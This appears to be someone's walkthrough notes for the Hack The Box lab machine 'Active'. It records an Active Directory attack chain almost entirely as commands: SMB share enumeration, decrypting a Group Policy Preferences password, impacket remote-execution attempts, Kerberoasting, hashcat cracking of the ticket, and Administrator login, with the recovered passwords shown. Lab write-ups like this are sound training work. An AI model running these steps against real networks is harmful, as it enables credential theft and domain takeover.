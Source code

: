 ### DNS
```
nslookup
dnsrecon -d 10.129.151.62 -r 10.0.0.0/8
```

### Nmap
```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb

nmap --script safe -p 445 active.htb
nmap --script smb-enum-services -d -p 445 active.htb
```

### SMB
```
smbmap -R Replication -H active.htb --depth 10
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
```

### Decrypt Group Policy Preferences (GPP)
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

### Carefully running impact
`/usr/share/doc/python3-impacket/examples/GetADUsers.py -h` no no
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py` yes yes yes

```
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip active.htb
or
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -all -dc-ip 10.129.151.62
```

### psexec.py or evil-winrm
won't work
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18'@active.htb
or use wmiexec.py
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py active.htb/administrator:'Ticketmaster1968'@10.129.148.91

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
Because it's not a admin user

### smbmap again to get user.txt
```
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10
smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -d active.htb -H 10.129.151.62 -R Users --depth 10 -A user.txt
smbclient \\\\active.htb\\Users -U=SVC_TGS%'GPPstillStandingStrong2k18'
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
or
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
or
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

### Crack 13100
```
hashcat -a 0 -m 13100 hash /usr/share/wordlists/rockyou.txt
Ticketmaster1968
```

### smbclient as administrator
```
smbclient //active.htb/Users -U=Administrator%'Ticketmaster1968'
```
